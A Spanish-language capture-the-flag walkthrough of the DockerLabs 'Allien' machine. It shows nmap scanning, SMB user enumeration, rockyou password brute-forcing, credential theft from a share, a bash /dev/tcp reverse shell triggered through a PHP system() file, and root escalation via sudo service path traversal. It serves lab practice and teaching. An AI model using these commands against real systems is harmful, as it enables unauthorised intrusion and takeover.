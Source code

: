 Máquina "Allien" de [DockerLabs](https;//dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil

![allien](img/allien.png)

# Reconocimiento

Comenzamos con un escaneo de nmap:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Sat Oct 12 22:41:23 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-12 22:41:23 -03 for 13s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:a1:09:2d:be:05:58:1b:01:20:d7:d0:d8:0d:7b:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrGDto+yIluWWc28CO9WLop39MgTQepDrYpDWvwqPgqpC2Ea8ZtGQCObWL21GlJITWAdFSZS0HaWuo1Wl9nZ84=
|   256 cd:98:0b:8a:0b:f9:f5:43:e4:44:5d:33:2f:08:2e:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICk8CRYpvJnqRBsGb/f/ZxXJoTikc4EQdeCBsvENuMwD
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41501/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 51735/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: SAMBASERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SAMBASERVER<00>      Flags: <unique><active>
|   SAMBASERVER<03>      Flags: <unique><active>
|   SAMBASERVER<20>      Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   ESEEMEB.DL<00>       Flags: <group><active>
|   ESEEMEB.DL<1d>       Flags: <unique><active>
|   ESEEMEB.DL<1e>       Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2024-10-13T01:41:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 12 22:41:36 2024 -- 1 IP address (1 host up) scanned in 13.74 seconds
```

Al parecer tenemos lo siguiente:

`Una web(puerto 80)`

`OpenSSH(puerto 22)`

`SMB/samba(puerto 139 y 445)`

Si vamos a la web no se ve nada interesante, por lo que no la voy a mostrar xD.

Ahora podemos hacer lo siguiente para intentar enumerar usuarios de la máquina victima usando `rpcclient`:

![rpcclient](img/rpcclient.png)

Como vemos tenemos varios usuarios:

usuario1

usuario3

administrador

usuario2

satriani7

Ahora que tenemos usuarios, vamos a intentar hacer fuerza bruta con `netexec`:

```css
sudo netexec smb 172.17.0.2 -u 'satriani7' -p /opt/rockyou.txt --ignore-pw-decoding
```

![smb](img/smb.png)

Como vemos, podemos acceder al smb con la contraseña "50cent" y el usuario "satriani7".

Ahora usaremos `smbmap` para saber que ficheros tiene el smb y ver que podemos hacer:

```css
smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2
```

```css
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445	Name: 172.17.0.2          	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	myshare                                           	READ ONLY	Carpeta compartida sin restricciones
	backup24                                          	READ ONLY	Privado
	home                                              	NO ACCESS	Produccion
	IPC$                                              	NO ACCESS	IPC Service (EseEmeB Samba Server)
[*] Closed 1 connections
```

Tenemos dos carpetas útiles:

myshare

backup24

Sabiendo esto, nos conectaremos con `smbclient` de la siguiente manera:

```css
smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'
```

Ahora que estamos dentro, si vamos a "\Documents\Personal\" veremos un archivo llamado "credentials.txt", este nos lo guardaremos con el comando `get credentials.txt`. Una vez hecho esto, veremos que dentro de ese archivo se encuentra la contraseña del usuario "administrador".

# INTRUSION

Simplemente nos conectaremos con `ssh` utilizando las credenciales que encontramos.

# ESCALADA DE PRIVILEGIOS

### Administrador

Luego de buscar un rato, no se encuentra nada interesante, pero si pruebo en buscar los directorios o archivos que me pertenezcan con `find`, encuentro lo siguiente:

```css
find / -user administrador 2>/dev/null
```

```
/var/www/html
/var/www/html/info.php
```

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data", para hacerlo solo haremos lo siguiente:

Primero crearemos un archivo con lo siguiente dentro de "/var/www/html":

```css
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/443 0>&1
```

A este lo guardamos como "shell.sh" y le damos permisos con `chmod +x shell.sh`, luego creamos un archivo ".php" con lo siguiente:

```css
<?php
system('./shell.sh')
?>
```

Ahora solo nos queda escuchar con netcat en el puerto 443 en la máquina victima y entrar desde el navegador al archivo php:

```css
nc -nlvp 443
```

### www-data

Ahora haremos un tratamiento de la tty: [Como hacerlo?](https://github.com/Maciferna/DockerLabs/blob/main/tratamientoTTY.md)

Luego, si ejecutamos `sudo -l` vermos lo siguiente:

```css
www-data@e03c24d1c06b:/var/www/html$ sudo -l
Matching Defaults entries for www-data on e03c24d1c06b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on e03c24d1c06b:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@e03c24d1c06b:/var/www/html$   
```

Si nos fijamos en GTFOBins veremos que podemos escalar ejecutando lo siguiente:

```css
sudo service ../../../../bin/bash
```

(Agrega "../" dependiendo de en que directorio te encuentres, pero normalmente con eso basta)

### Root

![root](img/root.png)

Gracias por leer....